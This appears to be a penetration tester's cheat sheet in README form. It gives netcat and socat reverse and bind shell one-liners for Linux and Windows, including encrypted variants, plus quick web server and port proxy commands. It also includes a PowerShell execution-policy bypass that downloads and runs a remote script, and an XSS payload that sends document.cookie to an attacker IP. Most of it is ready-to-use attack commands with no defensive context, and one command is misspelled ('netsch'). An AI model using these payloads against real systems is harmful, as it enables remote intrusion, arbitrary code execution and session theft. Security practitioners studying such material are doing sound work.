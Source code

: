 # tools

## Reverse Shells
Recipes for reverse shells from A to target B:

### Netcat
A: `nc -nlvp 4444`  
B (Linux): `nc -nv $A_IP $PORT -e /bin/bash`  
B (Windows): `nc -nv $A_IP $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat -d -d TCP4-LISTEN:$PORT STDOUT`  
B (Linux): `socat TCP4:$A_IP:$PORT EXEC:/bin/bash`  
B (Windows): `socat TCP4:$A_IP:4433 EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat -d -d OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork STDOUT`  
B (Linux): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:/bin/bash`  
B (Windows): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:'cmd.exe',pipes`  

## Bind Shells
Recipes for bind shells from A to target B:  

### Netcat
A: `nc -nv $B_IP $PORT`  
B (Linux): `nc -nlvp $PORT -e /bin/bash`  
B (Windows): `nc -nlvp $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat - TCP4:$B_IP:$PORT`  
B (Linux): `socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash`  
B (Windows): `socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat - OPENSSL:$B_IP:$PORT,verify=0 STDOUT`  
B machine (Linux): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:/bin/bash`  
B machine (Windows): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:'cmd.exe',pipes`  

## Self-Signed SSL Certificate
`openssl req -newkey rsa:2048 -nodes -keyout cert.key -x509 -days 10 -out cert.crt && cat cert.key cert.crt > cert.pem`  

## Web Servers

### Python
2: `python -m SimpleHTTPServer $PORT`  
3: `python -m http.server $PORT`  

### PHP
`php -S 0.0.0.0:$PORT`

### Ruby
`ruby -run -e httpd . -p $PORT`

### Busybox
`busybox httpd -f -p $PORT`

## Proxy Traffic

### Windows
Forward traffic from SOURCE_PORT on SOURCE_ADDRESS to TARGET_PORT on TARGET_ADDRESS.  
`netsch interface portproxy add v4tov4 listenport=$SOURCE_PORT listenaddress=$SOURCE_ADDRESS connectaddress=$TARGET_ADDRESS connectport=$TARGET_PORT`

## Misc
### Run powershell script from remote web server
`powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://web-server-ip/script.ps1')`

### Get Public IP
To get your public IP address on Linux run `dig +short myip.opendns.com @resolver1.opendns.com`  

### Steal Cookies
`<script>new Image().src="http://IP/random.jpg?output="+document.cookie;</script>`

